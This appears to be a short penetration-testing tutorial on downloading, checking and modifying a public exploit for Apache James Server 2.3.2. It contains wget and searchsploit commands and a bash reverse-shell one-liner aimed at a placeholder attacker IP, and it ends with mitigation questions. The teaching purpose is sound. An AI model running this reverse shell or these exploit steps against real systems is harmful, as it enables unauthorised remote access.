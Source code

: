 # Exploits 101

 Many available exploits are written in Python, Perl, Ruby, or Bash, and can be downloaded directy on the attack box.
These must be inspected and analyzed to confirm they perform what is advertised. Once we're sure it's accurate, generally, it is necessary to modify default / parameters from a POC (such as `ifconfig`) to one more suited for exploitation to gain a reverse shell, or bind shell.

### Downloading Exploits

* From Exploit-db via browser
* `wget https://www.exploit-db.com/download/35513 -O 35513.py` 
* Copying the exploit code directly from Searchsploit
  * `searchsploit 3513`
  * `searchsploit 35513 -p` # to show the full path
  * `cp /usr/share/exploitdb/exploits/linux/remote/35513.py ./` 

### Analyzing and Modifying 

We are trying to:

* Verify the exploit works as advertised
* Get an understanding of how the vulnerability is exploited
* See if there are any instructions from the Author on code that needs to be modified
* Modify the code based on the target

### Verify

Using 35513.py as a reference, the exploit title shows this is `Apache James Server 2.3.2 Remote Code Execution`. 
Any Remote Code Execution exploit should contain at least a `[targeted host ip]`, `[port]`, and `[payload]`. Let's check for parameters

### Modifying the Exploit

We want to get a shell on the target, so we need to modify the payload. Using the same exploit from above (35513.py or Apache James), we can replace the payload with the following:
```bash
bash -i >& /dev/tcp/[attacker IP]/[port] 0>&1 
# If the reverse shell session closes, try entering `bash` before the connection drops
```

### Afterthoughts

You are a network administrator, responsible for this server. What could you do to mitigate the threat?

If you were the developer and had to fix this vulnerability, how would you?

[Exploiting Apache James](https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf)

